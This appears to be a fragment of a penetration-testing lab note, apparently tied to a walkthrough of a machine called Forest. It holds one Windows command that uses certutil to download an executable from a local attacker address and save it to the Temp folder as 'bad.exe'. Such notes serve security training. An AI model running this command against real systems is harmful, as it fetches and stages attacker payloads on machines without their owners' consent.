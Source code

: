 ```cmd
certutil.exe -urlcache -f http://10.0.0.5/40564.exe C:\Windows\Temp\bad.exe
```
Example:
[[Forest#^8fde0e]]